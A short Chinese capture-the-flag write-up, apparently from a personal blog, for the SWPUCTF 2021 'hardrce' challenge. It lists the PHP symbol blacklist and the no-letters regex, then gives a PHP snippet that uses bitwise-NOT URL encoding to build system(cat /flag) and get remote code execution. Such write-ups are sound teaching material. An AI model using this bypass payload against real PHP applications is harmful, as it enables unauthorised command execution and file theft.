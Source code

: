 # 【SWPUCTF 2021 新生赛】hardrce


# [SWPUCTF 2021 新生赛]hardrce

## 思路
* GET传参给网页（参数是wllm）
* 过滤1【一些符号】：`$blacklist = [&#39; &#39;,&#39;\t&#39;,&#39;\r&#39;,&#39;\n&#39;,&#39;\&#43;&#39;,&#39;\[&#39;,&#39;\^&#39;,&#39;\]&#39;,&#39;\&#34;&#39;,&#39;\-&#39;,&#39;\$&#39;,&#39;\*&#39;,&#39;\?&#39;,&#39;\&lt;&#39;,&#39;\&gt;&#39;,&#39;\=&#39;,&#39;\`&#39;,];`
* 过滤2【字母】：preg_match(&#39;/[a-zA-Z]/is&#39;,$wllm)
* 因此考虑无字母绕过中的取反绕过

## EXP

取反绕过核心代码

```
&lt;?php
echo urlencode(~&#39;system&#39;);
echo &#34;\n&#34;;
echo urlencode(~&#39;cat /flllllaaaaaaggggggg&#39;);
?&gt;

# 构造system(cat /flllllaaaaaaggggggg);
# 其中把system和cat /flllllaaaaaaggggggg替换
```




## 总结
* 无字母RCE——取反绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2021-%E6%96%B0%E7%94%9F%E8%B5%9Bhardrce/  

